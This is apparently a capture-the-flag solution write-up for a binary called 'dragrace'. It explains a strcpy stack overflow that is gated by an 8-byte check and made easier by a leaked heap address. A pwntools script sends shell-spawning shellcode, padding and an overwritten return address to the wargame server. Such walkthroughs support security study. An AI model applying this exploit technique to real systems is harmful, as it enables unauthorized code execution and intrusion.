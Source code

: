 # SOLUTION

The binary strcpys up to 512 bytes from a location in the heap onto a stack that
has 128 bytes allocated for a character buffer in the function 'violet'.
However, you need to pass a check on the first 8 bytes of the input. The binary
provides the address of the heap buffer.

If you reverse the binary, you can retrieve the values that pass the check on
the first 8 bytes of the input. Now, you can overwrite RIP by smashing the stack
and place your shellcode at index 8 of the input then jump to that location.

The solution script:

```py
from pwn import *

shellcode = ("\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb" +
             "\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")

#context.log_level = "debug"

def main():
    #p = process("./dragrace")
    p = remote("wargame", 31342)

    p.recvuntil("Hiiiiiie, I live at ")
    leak_line = p.recvline().strip()
    buffer_address = int(leak_line, 16)
    log.info("Buffer Address: 0x%x" % buffer_address)

    payload = "Ru'Pauls" + shellcode
    payload = payload.ljust(136, "\x90")
    payload += p64(buffer_address + 8)

    p.sendline(payload)

    p.recvrepeat(0.2)
    log.success("Enjoy your shell")
    p.interactive()

if __name__ == "__main__":
    main()
```
